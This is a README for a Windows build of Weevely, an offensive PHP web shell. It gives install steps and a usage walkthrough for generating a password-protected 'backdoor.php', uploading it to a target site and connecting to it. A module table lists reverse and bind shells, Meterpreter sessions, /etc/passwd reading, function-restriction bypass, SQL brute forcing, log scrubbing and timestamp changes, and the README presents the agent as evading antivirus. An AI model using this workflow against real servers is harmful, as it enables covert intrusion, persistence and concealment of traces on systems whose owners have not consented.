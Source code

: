 Weevely for Windows 
=======

## Name

Weevely - Weaponized web shell

  
## Description

this `Weevely` is for security researcher that using windows OS that can't install weevely on their PC/laptop 

### what is weevely?

Weevely is a web shell designed for post-exploitation purposes that can be extended over the network at runtime.

Upload weevely PHP agent to a target web server to get remote shell access to it. It has more than 30 modules to assist administrative tasks, maintain access, provide situational awareness, elevate privileges, and spread into the target network.

## Needed

- [Python 2.7.17](https://www.python.org/downloads/release/python-2717/)

## Requirements/Module

- PyYAML
- python-dateutil
- PySocks
- win_inet_pton
- pyreadline
- pyOpenSSL
- prettytable

## Installation

Run the following command on your terminal

1. git clone https://github.com/PhHitachi/Weevely.git
2. cd Weevely
3. `pip install -r requirements.txt`
4. `python weevely.py` or `./weevely.py`

<b>Note</b>: if you face this error on step 3:

```
‘pip’ is not recognized as an internal or external command,
operable program or batch file.
```

This the alternative command by installing python module
C:\Python\Scripts\pip.exe install <module>

by Installing `requirements` run the following command:

`C:\Python\Scripts\pip.exe install -r requirements.txt` 

 if this is your first time by install the `python` you need install `request` module using 
 `C:\Python\Scripts\pip.exe install request` or `pip install request`
 the request module is not included on `requirements.txt`


## Usage

```
weevely generate <password> <path>
weevely <URL> <password>
```
for example : weevely generate `1337` backdoor.php

now you need to upload your `backdoor.php` on target example this that path: 
`www.example.com/images/uploads/backdoor.php`

for connecting on your terminal follow this command

$ `python weevely.py www.example.com/images/uploads/backdoor.php 1337`


Read the [Getting Started](https://github.com/epinna/weevely3/wiki/Getting-Started) page to generate an agent and connect to it.

Browse the [Wiki](https://github.com/epinna/weevely3/wiki) to read examples and use cases.

### Features

* Shell access to the target
* SQL console pivoting on the target
* HTTP/HTTPS proxy to browse through the target
* Upload and download files
* Spawn reverse and direct TCP shells
* Audit remote target security
* Run Meterpreter payloads
* Port scan pivoting on target
* Mount the remote filesystem
* Bruteforce SQL accounts pivoting on the target

### Agent

The agent is a small, polymorphic PHP script hardly detected by AV and the communication protocol is obfuscated within HTTP requests.

### Modules

| Module                      | Description
| --------------------------- | ------------------------------------------ |
| :audit_filesystem           | Audit the file system for weak permissions.
| :audit_suidsgid             |  Find files with SUID or SGID flags.
| :audit_disablefunctionbypass|  Bypass disable_function restrictions with mod_cgi and .htaccess.
| :audit_etcpasswd            |  Read /etc/passwd with different techniques.
| :audit_phpconf              |  Audit PHP configuration.
| :shell_sh                   |  Execute shell commands.
| :shell_su                   |  Execute commands with su.
| :shell_php                  |  Execute PHP commands.
| :system_extensions          |  Collect PHP and webserver extension list.
| :system_info                |  Collect system information.
| :system_procs               |  List running processes.
| :backdoor_reversetcp        |  Execute a reverse TCP shell.
| :backdoor_tcp               |  Spawn a shell on a TCP port.
| :backdoor_meterpreter       |  Start a meterpreter session.
| :bruteforce_sql             |  Bruteforce SQL database.
| :file_gzip                  |  Compress or expand gzip files.
| :file_clearlog              |  Remove string from a file.
| :file_check                 |  Get attributes and permissions of a file.
| :file_upload                |  Upload file to remote filesystem.
| :file_webdownload           |  Download an URL.
| :file_tar                   |  Compress or expand tar archives.
| :file_download              |  Download file from remote filesystem.
| :file_bzip2                 |  Compress or expand bzip2 files.
| :file_edit                  |  Edit remote file on a local editor.
| :file_grep                  |  Print lines matching a pattern in multiple files.
| :file_ls                    |  List directory content.
| :file_cp                    |  Copy single file.
| :file_rm                    |  Remove remote file.
| :file_upload2web            |  Upload file automatically to a web folder and get corresponding URL.
| :file_zip                   |  Compress or expand zip files.
| :file_touch                 |  Change file timestamp.
| :file_find                  |  Find files with given names and attributes.
| :file_mount                 |  Mount remote filesystem using HTTPfs.
| :file_enum                  |  Check existence and permissions of a list of paths.
| :file_read                  |  Read remote file from the remote filesystem.
| :file_cd                    |  Change current working directory.
| :sql_console                |  Execute SQL query or run console.
| :sql_dump                   |  Multi dbms mysqldump replacement.
| :net_mail                   |  Send mail.
| :net_phpproxy               |  Install PHP proxy on the target.
| :net_curl                   |  Perform a curl-like HTTP request.
| :net_proxy                  |  Run local proxy to pivot HTTP/HTTPS browsing through the target.
| :net_scan                   |  TCP Port scan.
| :net_ifconfig               |  Get network interfaces addresses.

### Development

Weevely is easily extendible to implement internal audit, account enumerator, sensitive data scraper, network scanner, make the modules work as a HTTP or SQL client and do a whole lot of other cool stuff.
